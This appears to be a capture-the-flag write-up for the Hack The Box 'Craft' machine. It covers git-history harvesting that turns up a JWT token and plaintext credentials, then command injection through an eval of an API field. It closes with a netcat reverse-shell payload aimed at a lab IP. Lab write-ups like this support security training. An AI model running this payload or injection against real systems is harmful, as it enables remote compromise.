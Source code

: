 ### Hostnames:
  - craft.htb
  - api.craft.htb
  - gogs.craft.htb

#### craft.htb
![image](https://user-images.githubusercontent.com/83878909/229785263-b8557a69-60bd-4672-b9d2-5c440e5dffaf.png)
#### api.craft.htb
![image](https://user-images.githubusercontent.com/83878909/229785634-53d5e3c3-0752-4f35-9e47-a40722a79b66.png)
#### gogs.craft.htb
![image](https://user-images.githubusercontent.com/83878909/229786593-c39dacb7-8254-492e-8b7f-26084699fa89.png)

---

## API
  - Download API: `git -c http.sslVerify=false clone https://gogs.craft.htb/Craft/craft-api.git` 
![image](https://user-images.githubusercontent.com/83878909/229787370-7ecc2abc-4ed1-4f68-b5b4-823ce6c7ebe9.png)
![image](https://user-images.githubusercontent.com/83878909/229789315-f08bc382-7631-42f4-b909-99cfab95d2fa.png)
  - Open Issues
![image](https://user-images.githubusercontent.com/83878909/229787795-a9a9a515-bbe0-4a7a-8143-899f239badca.png)
  - API Token (JWT): `X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw`
  - Commit: `c414b160578943acfe2e158e89409623f41da4c6`
  ![image](https://user-images.githubusercontent.com/83878909/229793366-7d0c7921-d016-4b9d-ad29-10318ed962f5.png)
  - Closed Issues
![image](https://user-images.githubusercontent.com/83878909/229793811-f7d3319b-d5ed-4503-9378-ea8e6aa9bc63.png)
  - Commit: `4fd8dbf8422cbf28f8ec96af54f16891dfdd7b95` redirects to a 404.

---

### Analyse the GIT repository
  - Git Harvesting `git log`
![image](https://user-images.githubusercontent.com/83878909/229796816-9e18e237-3d7a-4494-b349-e1cf0782039a.png)
  - File allows to execute raw SQL commands
![image](https://user-images.githubusercontent.com/83878909/229797644-c3e67d34-fd40-4ffb-9d37-84e03f59da4e.png)
  - Credentials: `dinesh:4aUh0A8PbVJxgd`
![image](https://user-images.githubusercontent.com/83878909/229798129-c456bc2c-1f02-4953-b143-93a4fdb141c3.png)
  - Test Script - commit `c414b160578943acfe2e158e89409623f41da4c6`
![image](https://user-images.githubusercontent.com/83878909/229799067-a2b83b1c-5d32-424a-a2be-573d9c05664e.png)
  - Add found credentials to `test.py` and execute.
![image](https://user-images.githubusercontent.com/83878909/229805482-281bbb46-bf7f-4987-b4d8-4ea5a0853a0f.png)
  - The cript confirms the credentials and authenticates the token as valid.
![image](https://user-images.githubusercontent.com/83878909/229806180-05eed04d-1485-4e15-89d1-473a8c54dfb4.png)
  - Find an execution point in the script which allows to execute commands (Commit: `c414b160578943acfe2e158e89409623f41da4c6`). An eval function executes the 'ABV' value. Inject command using ABV.
![image](https://user-images.githubusercontent.com/83878909/229810365-f5c26d85-6436-48f8-818b-948ec5db7de2.png)
  - Executing the script now sends an ICMP request.
![image](https://user-images.githubusercontent.com/83878909/229810078-4f602a4e-a411-4154-9e97-0509a2f1ab9a.png)
  - Modify the script and embed a python reverse shell.
```CSS
"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f')"
```
![image](https://user-images.githubusercontent.com/83878909/229831739-157a6b8e-0edf-454f-92d6-afa0de1550c7.png)



